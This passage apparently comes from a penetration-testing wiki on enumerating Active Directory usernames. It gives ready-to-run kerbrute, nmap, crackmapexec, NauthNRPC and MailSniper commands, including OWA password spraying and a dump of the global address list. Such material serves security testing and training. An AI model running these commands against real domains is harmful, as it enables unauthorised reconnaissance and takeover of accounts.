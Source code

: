 ### User enumeration

- **Anonymous SMB/LDAP enum:** Check the [**pentesting SMB**](../../network-services-pentesting/pentesting-smb/index.html) and [**pentesting LDAP**](../../network-services-pentesting/pentesting-ldap.md) pages.
- **Kerbrute enum**: When an **invalid username is requested** the server will respond using the **Kerberos error** code _KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN_, allowing us to determine that the username was invalid. **Valid usernames** will illicit either the **TGT in a AS-REP** response or the error _KRB5KDC_ERR_PREAUTH_REQUIRED_, indicating that the user is required to perform pre-authentication.
- **No Authentication against MS-NRPC**: Using auth-level = 1 (No authentication) against the MS-NRPC (Netlogon) interface on domain controllers. The method calls the `DsrGetDcNameEx2` function after binding MS-NRPC interface to check if the user or computer exists without any credentials. The [NauthNRPC](https://github.com/sud0Ru/NauthNRPC) tool implements this type of enumeration. The research can be found [here](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2024/05/22190247/A-journey-into-forgotten-Null-Session-and-MS-RPC-interfaces.pdf)

```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>

msf> use auxiliary/gather/kerberos_enumusers

crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq
python3 nauth.py -t target -u users_file.txt #From https://github.com/sud0Ru/NauthNRPC
```

- **OWA (Outlook Web Access) Server**

If you found one of these servers in the network you can also perform **user enumeration against it**. For example, you could use the tool [**MailSniper**](https://github.com/dafthack/MailSniper):

```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1
# Get info about the domain
Invoke-DomainHarvestOWA -ExchHostname [ip]
# Enumerate valid users from a list of potential usernames
Invoke-UsernameHarvestOWA -ExchHostname [ip] -Domain [domain] -UserList .\possible-usernames.txt -OutFile valid.txt
# Password spraying
Invoke-PasswordSprayOWA -ExchHostname [ip] -UserList .\valid.txt -Password Summer2021
# Get addresses list from the compromised mail
Get-GlobalAddressList -ExchHostname [ip] -UserName [domain]\[username] -Password Summer2021 -OutFile gal.txt
```

> [!WARNING]
> You can find lists of usernames in [**this github repo**](https://github.com/danielmiessler/SecLists/tree/master/Usernames/Names) \*\*\*\* and this one ([**statistically-likely-usernames**](https://github.com/insidetrust/statistically-likely-usernames)).
>
> However, you should have the **name of the people working on the company** from the recon step you should have performed before this. With the name and surname you could used the script [**namemash.py**](https://gist.github.com/superkojiman/11076951) to generate potential valid usernames.

